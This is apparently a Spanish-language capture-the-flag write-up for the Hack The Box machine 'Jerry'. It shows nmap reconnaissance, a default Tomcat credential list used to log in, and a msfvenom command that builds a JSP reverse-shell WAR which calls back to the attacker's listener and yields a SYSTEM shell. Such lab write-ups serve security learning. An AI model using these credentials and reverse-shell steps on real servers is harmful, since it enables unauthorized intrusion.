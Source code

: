 ```yaml
---
layout: single
title: HTB-Jerry
excerpt: "WriteUp de la máquina HTB Jerryype: Easy"
date: 2022-04-05
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/jerry/jerry.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/writeups/jerry/jerry.png"></centre>

[Maquina](https://app.hackthebox.com/machines/Jerry) 


## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.95 
```

```bash
Nmap scan report for 10.10.10.95
Host is up (0.041s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
```

Al mirar el resultado del nmap, vemos que el puerto **8080** tiene un http abierto con **Apache Tomcat** al cual accederemos a el.

<centre><img src="/assets/images/writeups/jerry/panel1.png"></centre>

Nos encontramos un panel de tomcat dónde en la parte de la derecha tenemos un link a la **managment app** la cual podemos clickar y ver que pasa.

<centre><img src="/assets/images/writeups/jerry/panel2.png"></centre>

Nos encontramos un panel de login en el cual podemos intentar iniciar sesion con las credenciales por defecto de este software.

```txt
Username:assword

admin:password
admin:
admin:Password1
admin:password1
admin:admin
admin:tomcat
both:tomcat
manager:manager
role1:role1
role1:tomcat
role:changethis
root:Password1
root:changethis
root:password
root:password1
root:r00t
root:root
root:toor
tomcat:tomcat
tomcat:s3cret
tomcat:password1
tomcat:password
tomcat:
tomcat:admin
tomcat:changethis
```

Vemos que las credenciales correctas son **tomcat:s3cret**.

<centre><img src="/assets/images/writeups/jerry/panel3.png"></centre>

En el caso de que salirte del panel de credenciales nos sale una página de error con las credenciales correctas.

<centre><img src="/assets/images/writeups/jerry/panel4.png"></centre>

Ahora, tenemos un control panel donde podemos subir archivos **.war**


## Explotación

Procedemos a la creacion de un archivo **.war** con **msfvenom** para devolvernos una reverseshell a nuestra máquina desde la víctima para poder controlarla.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f war -o reverse.war
```

Lo subimos a la web y le damos a deploy.

<centre><img src="/assets/images/writeups/jerry/panel5png"></centre>

Nos ponemos en escucha con netcat y ejecutamos el war desde la **url**

```bash
nc -lvp 443 #netcat

http://10.10.10.95:8080/reverse #url
```

Obtenemos la reverseshell:

```txt
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

Comprobamos que usuario somos:

```powershell
C:\apache-tomcat-7.0.88>whoami
        whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

Flag de los **Usuarios**:
```powershell
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,703,808 bytes free

C:\Users\Administrator\Desktop\flags>
```